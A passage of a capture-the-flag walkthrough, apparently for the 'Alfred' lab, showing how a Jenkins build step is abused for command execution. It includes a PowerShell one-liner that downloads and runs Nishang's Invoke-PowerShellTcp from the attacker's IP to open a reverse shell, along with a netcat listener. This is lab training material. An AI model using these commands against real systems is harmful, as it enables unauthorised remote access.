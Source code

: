Let us try to see if it is working. We will now change the command to ipconfig and see if it works.

<img src="{{'/assets/img/images/05.Alfred/06.png' | prepend: site.baseurl }}">

Save it and build. 

After building, we will check the build history.

<img src="{{'/assets/img/images/05.Alfred/07.png' | prepend: site.baseurl }}" height="400">

Under console output, we can see that there is output for the command we used earlier.

<img src="{{'/assets/img/images/05.Alfred/08.png' | prepend: site.baseurl }}" height="300">

<img src="{{'/assets/img/images/05.Alfred/09.png' | prepend: site.baseurl }}">

# Exploitation
We will download [Nishang](https://github.com/samratashok/nishang) into our machine and use the [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 "Invoke-PowerShellTcp.ps1") to get the reverse shell.
```shell
git clone https://github.com/samratashok/nishang.git
```
```shell
cd nishang
```
Start the python webserver to host the file so that we can download it to the target machine. 
```shell
python -m http.server
```
<img src="{{'/assets/img/images/05.Alfred/10.png' | prepend: site.baseurl }}">

Now copy the following command into the build section where we can execute commands. This command downloads the powershell script from our webserver and runs it on the target machine using the ip address and port that we specify as arguments. We will be using our machine ip address and the port that we want to use for the reverse shell.

```shell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.29.149:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.29.149 -Port 3333
```
<img src="{{'/assets/img/images/05.Alfred/11.png' | prepend: site.baseurl }}">

Save the changes and apply.

In a new terminal window, use netcat to listen on port 3333.

```shell
nc -lnvp 3333
```
<img src="{{'/assets/img/images/05.Alfred/12.png' | prepend: site.baseurl }}" height="100">

Now build the project.
